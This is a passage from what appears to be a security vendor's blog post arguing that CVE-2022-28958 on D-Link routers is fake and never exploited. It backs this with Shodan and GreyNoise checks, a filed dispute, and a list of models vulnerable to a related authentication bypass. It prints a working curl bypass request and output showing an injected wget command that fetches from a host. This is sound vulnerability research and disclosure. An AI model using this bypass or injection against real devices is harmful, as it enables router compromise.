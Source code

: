 of \`shareport.php\`:\\n\\n::shell-prompt\\n\`\`\`sh\\nalbinolobster@mournland:~/initial-access/feed/cve-2019-10891$ curl http://192.168.0.1/mydlink/get\_WanSetting.asp -d "test=test%0aAUTHORIZED\_GROUP=1"\\n\`\`\`\\n::\\n\`\`\`xml\\n\\n1\\n& wget http://192.168.0.164/test & \\nf8:e9:03:c1:81:b7\\n... truncated ...\\n\`\`\`\\n\\nIn theory, if these devices were under attack using the \`shareport.php\` vulnerability, then we’d be able to find artifacts of exploitation on internet-facing devices by querying \`/mydlink/get\_WanSetting.asp\`. We did just that. Using a list of 6000+ routers from Shodan, we found \*\*zero\*\* routers with evidence of \`shareport.php\` exploitation attempts. Which means, to us, that it’s highly unlikely that anyone has attempted to use the vulnerability, as described in the CVE description, in the wild.\\n\\n# Consulting Greynoise\\n\\nFinally, we consulted Greynoise. They can give us insight into whether \`shareport.php\` exploitation is hitting any of their honeypots. \\n\\n!\[censys\](/blog/moobot-uses-fake-vulnerability/greynoise\_shareport.png){:width="100%"}\\n\\nFrom the screenshot above, you can see that Greynoise isn’t seeing CVE-2022-28958 exploitation either. Greynoise does have an existing tag for the \`getcfg.php\` \[authentication bypass\](https://viz.greynoise.io/tag/d-link-trendnet-getcfg-auth-bypass-attempt?days=30). As mentioned earlier, this is typically associated with a credential leak, and it does have some activity over the last 30 days. \\n\\n!\[censys\](/blog/moobot-uses-fake-vulnerability/greynoise\_getcfg.png){:width="100%"}\\n\\nBut, as previously mentioned, \`getcfg.php\` is in no way related to CVE-2022-28958 other than the original researcher posting an erroneous proof of concept.\\n\\n# Summary\\n\\nIn summary, this blog established the following:\\n\\n\* The original researcher's proof of concept for CVE-2022-28958 never worked.\\n\* Moobot copied the researcher's proof of concept and added additional errors. Their exploit never worked.\\n\* CVE-2022-28958 isn't real. We tested firmware versions 2.03b1, 2.06b1 (the reportedly vulnerable version) and 2.06b9 and found no evidence the vulnerability exists. The original researcher provided no evidence either.\\n\* Internet-facing D-Link DIR-816L did not contain artifacts that would indicate they were exploited by CVE-2022-28958.\\n\* GreyNoise has not seen \`shareport.php\` HTTP requests hit their honeypots.\\n\\nWe conclude that CVE-2022-28958 is not a real vulnerability and at-scale exploitation has never occurred. The vulnerability should not be listed by MITRE, and it should not be in the CISA Known Exploited Vulnerabilities Catalog. We filed a dispute with MITRE and shared our findings with CISA in October 2022.\\n\\n!\[censys\](/blog/moobot-uses-fake-vulnerability/dispute.png){:width="100%"}\\n\\n# Addendum\\n\\nVulnCheck has found the following D-Link models to be vulnerable to the \`%0aAUTHORIZED\_GROUP\` bypass (aka CVE-2022-28956, CVE-2020-15894, CVE-2020-9376, CVE-2019-17506, and CVE-2018-7034):\\n\\n\* DIR-300\\n\* DIR-600\\n\* DIR-605L\\n\* DIR-610\\n\* DIR-610N+\\n\* DIR-615\\n\* DIR-629\\n\* DIR-645\\n\* DIR-685\\n\* DIR-803\\n\* DIR-806\\n\* DIR-815\\n\* DIR-816L\\n\* DIR-817LW\\n\* DIR-818L\\n\* DIR-818LW\\n\* DIR-822\\n\* DIR-845L\\n\* DIR-850L\\n\* DIR-860L\\n\* DIR-865L\\n\* DIR-868L\\n\* DSL-2890AL\\n\* GO-RT-AC750\\n\* WBR-2200

#### [Source](https://vulncheck.com/blog/moobot-uses-fake-vulnerability)

<br/>
---
